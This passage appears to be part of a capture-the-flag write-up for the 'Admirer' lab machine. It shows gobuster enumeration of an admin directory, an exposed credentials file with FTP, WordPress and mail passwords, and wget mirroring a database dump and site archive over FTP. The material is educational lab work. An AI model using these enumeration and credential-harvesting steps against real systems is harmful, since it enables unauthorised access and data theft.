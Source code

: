 	  forbidden - permission denied

## Gobuster 

>**_/admin-dir/_**

`gobuster dir -u http://10.10.10.187/admin-dir/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x txt,php -t 50`
```
/contacts.txt (Status: 200)
/credentials.txt (Status: 200)
```

- `/contacts.txt` contains some emails

	  # Penny:p.wise@admirer.htb
	  # Rajesh:r.nayyar@admirer.htb
	  # Amy:a.bialik@admirer.htb
	  # Leonard:l.galecki@admirer.htb
	  # Howard:h.helberg@admirer.htb
	  # Bernadette:b.rauch@admirer.htb

  - Don't find any usages of these emails.

- `credentials.txt` contains some creds

	**[FTP account]** `ftpuser:%n?4Wz}R$tTF7`

	**[Wordpress account]** `admin:w0rdpr3ss01!`

	**[Internal mail account]** `w.cooper@admirer.htb:fgJr6q#S\W:$P`

  - found working `FTP` creds

### FTP

`ftp 10.10.10.187`
```
-rw-r--r--	1 0	0	   3405 Dec 02  2019 dump.sql
-rw-r--r--	1 0	0	5270987 Dec 02  2019 html.tar.gz
```

#### wget FTP files

`wget --user ftpuser --password '%n?4Wz}R$tTF7' -m ftp://10.10.10.187`
```
dump.sql  html.tar.gz
```
